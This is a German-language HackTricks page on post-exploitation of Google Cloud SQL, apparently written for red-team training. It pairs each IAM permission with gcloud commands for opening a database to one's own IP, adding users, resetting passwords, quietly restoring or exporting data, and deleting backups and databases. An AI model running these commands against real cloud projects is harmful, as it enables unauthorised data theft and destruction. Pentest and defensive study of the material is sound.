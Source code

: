 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Cloud SQL

Für weitere Informationen zu Cloud SQL siehe:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Um eine Verbindung zu den Datenbanken herzustellen, **benötigst du nur Zugriff auf den Datenbankport** und musst den **Benutzernamen** und das **Passwort** kennen, es gibt keine IAM-Anforderungen. Eine einfache Möglichkeit, Zugriff zu erhalten, vorausgesetzt, die Datenbank hat eine öffentliche IP-Adresse, besteht darin, die erlaubten Netzwerke zu aktualisieren und **deine eigene IP-Adresse den Zugriff zu erlauben**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Es ist auch möglich, **`--no-backup`** zu verwenden, um **die Backups** der Datenbank **zu stören**.

Da dies die Anforderungen sind, bin ich mir nicht ganz sicher, wofür die Berechtigungen **`cloudsql.instances.connect`** und **`cloudsql.instances.login`** sind. Wenn du es weißt, sende einen PR!

### `cloudsql.users.list`

Erhalte eine **Liste aller Benutzer** der Datenbank:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Diese Berechtigung erlaubt es, **einen neuen Benutzer innerhalb** der Datenbank zu erstellen:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Diese Berechtigung erlaubt es, **Benutzer innerhalb** der Datenbank zu **aktualisieren**. Zum Beispiel könnten Sie das Passwort ändern:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups könnten **alte sensible Informationen** enthalten, daher ist es interessant, sie zu überprüfen.\
**Stellen Sie ein Backup** in einer Datenbank wieder:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Um es auf eine stealthy Weise zu tun, wird empfohlen, eine neue SQL-Instanz zu erstellen und die Daten dort wiederherzustellen, anstatt in den derzeit laufenden Datenbanken.

### `cloudsql.backupRuns.delete`

Diese Berechtigung erlaubt das Löschen von Backups:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exportieren Sie eine Datenbank** in einen Cloud Storage Bucket, damit Sie von dort darauf zugreifen können:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importieren Sie eine Datenbank** (überschreiben) aus einem Cloud Storage-Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Löschen Sie eine Datenbank aus der DB-Instanz:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
